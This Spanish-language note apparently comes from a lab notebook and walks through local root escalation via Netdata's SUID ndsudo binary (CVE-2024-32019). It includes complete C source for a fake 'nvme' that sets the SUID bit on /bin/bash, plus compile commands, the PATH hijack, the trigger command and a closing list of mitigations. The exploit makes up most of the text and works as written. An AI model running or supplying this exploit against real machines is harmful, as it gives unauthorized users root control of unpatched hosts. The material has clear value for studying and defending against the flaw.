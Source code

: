 # Escalada de Privilegios con ndsudo (CVE-2024-32019)

Este apunte documenta la técnica de **escalada de privilegios local** usando un binario vulnerable **`ndsudo`** de Netdata. Permite a un usuario con acceso local ejecutar código con privilegios **root** aprovechando una vulnerabilidad en la resolución de comandos externos.

---

## Condiciones para que `ndsudo` sea explotable

* El binario `ndsudo` debe estar **instalado en el sistema**.
* Debe tener **permisos SUID** (ejecutarse con privilegios del propietario, normalmente root).
* El usuario atacante debe poder **crear y ejecutar binarios locales** en un directorio que pueda añadir al **PATH**.
* El comando invocado por `ndsudo` (por ejemplo `nvme`) debe ser susceptible a **resolución a través de PATH** (no usar ruta absoluta fija).

---

## Flujo de explotación (PoC en laboratorio)

### 1. Código del payload (`nvme.c`)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>
#include <errno.h>

int main(void) {
    pid_t pid = fork();

    if (pid < 0) {
        perror("fork");
        return 1;
    }

    if (pid == 0) {
        /* Proceso hijo: reemplazamos con /bin/ls -l */
        char *argv[] = {"chmod","u+s","/bin/bash",  NULL};
        execvp(argv[0], argv);
        /* Si execvp falla, llegamos aquí */
        perror("execvp fallo");
        _exit(127);
    } else {
        /* Proceso padre: espera al hijo y muestra su estado */
        int status;
        if (waitpid(pid, &status, 0) == -1) {
            perror("waitpid");
            return 1;
        }
        if (WIFEXITED(status)) {
            printf("Hijo finalizó con estado %d\n", WEXITSTATUS(status));
        } else if (WIFSIGNALED(status)) {
            printf("Hijo terminado por señal %d\n", WTERMSIG(status));
        } else {
            printf("Hijo terminó de forma inesperada\n");
        }
    }

    return 0;
}

```

**Explicación rápida:**

* Da permisos SUID a la bash
---

### 2. Compilación del PoC

```bash
gcc -Wall -Wextra -o nvme nvme.c     
```

* Genera el binario `nvme` a partir del código fuente.

---

### 3. Transferencia y preparación

1. Mover el binario a un **directorio escribible**, por ejemplo `/tmp`:

```bash
mv nvme /tmp/
chmod +x /tmp/nvme
```

2. Añadir el directorio al **inicio del PATH**:

```bash
export PATH=/tmp:$PATH
```

* Esto asegura que `ndsudo` ejecutará nuestro `nvme` en lugar del binario legítimo.

---

### 4. Ejecución controlada

```bash
./ndsudo nvme-list
```

* `ndsudo` invocará nuestro PoC **con privilegios root**.
* Comprobación: verificar permisos de la bash:

```bash
ls -l /bin/bash
```

---

### 5. Mitigaciones

* **Eliminar SUID innecesario:** revisar binarios instalados con SUID.
* **Actualizar Netdata:** instalar la versión que corrige CVE-2024-32019.
* **Evitar dependencia de PATH en binarios privilegiados:** usar rutas absolutas para comandos críticos.
* **Auditar directorios del PATH:** limitar escritura de usuarios no privilegiados en directorios incluidos en PATH de SUID.

---

### Resumen

* **Vulnerabilidad:** `ndsudo` permite ejecutar comandos locales con privilegios root al resolver binarios externos mediante PATH.
* **Impacto:** Escalada de privilegios local.
* **Requisitos:** `ndsudo` SUID, usuario con permisos de escritura en PATH, comandos invocados susceptibles a PATH.
---
